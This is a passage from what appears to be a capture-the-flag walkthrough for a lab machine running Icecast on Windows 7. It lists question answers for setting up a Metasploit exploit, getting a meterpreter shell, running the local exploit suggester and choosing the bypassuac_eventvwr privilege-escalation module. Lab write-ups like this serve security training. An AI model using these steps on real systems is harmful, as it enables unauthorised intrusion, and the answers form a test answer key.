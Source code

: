 7. First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`
```
No answer needed
```

## Task 4 - Escalate

1. Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

```
meterpreter
```

2. What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module.
```
dark
```

3. What build of Windows is the system?
```
7601
```

4. Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
```
x64
```

5. Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*
```
no answer needed
```

6. Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
```
exploit/windows/local/bypassuac_eventvwr
```
7. Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shel

```
no answer needed
```

8. Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`
```
no answer needed
```
